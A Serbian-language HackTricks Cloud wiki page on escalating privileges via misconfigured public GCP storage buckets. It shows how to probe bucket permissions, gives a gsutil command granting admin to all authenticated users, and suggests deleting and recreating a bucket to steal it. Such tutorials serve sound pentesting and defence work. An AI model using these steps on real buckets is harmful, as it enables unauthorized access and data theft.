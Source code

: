 # GCP - Privilegije eskalacije javnih kanti

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Eskalacija privilegija kanti

Ako je politika kante dozvolila "allUsers" ili "allAuthenticatedUsers" da **pišu u svoju politiku kante** (dozvola **storage.buckets.setIamPolicy**), tada bilo ko može izmeniti politiku kante i dodeliti sebi pun pristup.

### Provera dozvola

Postoje 2 načina za proveru dozvola nad kantom. Prvi način je da ih zatražite praveći zahtev ka `https://www.googleapis.com/storage/v1/b/IME_KANTE/iam` ili pokretanjem `gsutil iam get gs://IME_KANTE`.

Međutim, ako vaš korisnik (potencijalno pripadajući allUsers ili allAuthenticatedUsers") nema dozvole da pročita iam politiku kante (storage.buckets.getIamPolicy), to neće raditi.

Druga opcija koja će uvek raditi je korišćenje testPermissions endpointa kante kako biste saznali da li imate određenu dozvolu, na primer pristupanje: `https://www.googleapis.com/storage/v1/b/IME_KANTE/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update`

### Eskalacija

Da biste dodelili `Storage Admin` korisnicima `allAuthenticatedUsers`, moguće je pokrenuti:
```
gsutil iam ch group:allAuthenticatedUsers:admin gs://BUCKET_NAME
```
Još jedan napad bio bi **ukloniti kantu i ponovo je kreirati u vašem nalogu kako biste ukrali vlasništvo**.

## Reference

* [https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/](https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/)

